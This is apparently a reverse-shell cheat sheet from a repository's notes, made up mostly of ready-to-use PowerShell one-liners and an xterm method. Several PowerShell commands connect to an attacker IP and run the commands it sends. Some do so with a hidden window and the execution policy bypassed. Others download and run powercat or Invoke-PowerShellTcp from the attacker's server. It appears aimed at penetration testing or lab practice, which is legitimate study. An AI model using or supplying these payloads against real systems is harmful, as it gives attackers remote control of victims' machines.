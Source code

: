 # powershell

    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.17",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    # ESCAPED
    $client = New-Object System.Net.Sockets.TCPClient(\"10.10.14.17\",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.17",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

    powershell -ExecutionPolicy Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.17/powercat.ps1');powercat -c 10.10.14.17 -p 8081 -e powershell"
    
    powershell -ExecutionPolicy Bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.134/invoke-powershell-tcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.134 -Port 443

    $client = New-Object System.Net.Sockets.TCPClient('10.10.14.17',8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

    xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip
    
# telnet
